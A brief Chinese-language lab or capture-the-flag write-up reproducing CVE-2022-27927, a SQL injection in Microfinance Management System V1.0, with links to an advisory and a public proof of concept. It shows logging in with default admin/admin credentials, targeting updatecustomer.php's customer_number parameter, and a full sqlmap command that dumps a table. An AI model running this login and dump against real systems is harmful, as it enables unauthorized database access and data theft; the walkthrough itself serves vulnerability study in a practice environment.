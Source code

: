 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-27927)
[GitHub - erengozaydin/Microfinance-Management-System-V1.0-SQL-Injection-Vulnerability-Unauthenticated: CVE-2022-27927](https://github.com/erengozaydin/Microfinance-Management-System-V1.0-SQL-Injection-Vulnerability-Unauthenticated)
## 2. 漏洞复现
弱密码登录 admin/admin，访问 `http://eci-2ze4x19l8hd6jj959li8.cloudeci1.ichunqiu.com/updatecustomer.php?customer_number=5361` 抓包跑sqlmap。

```python
python sqlmap.py -r post.txt --dbms=mysql -D mims  --batch -T flag -C flag --dump
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061157428.jpg)
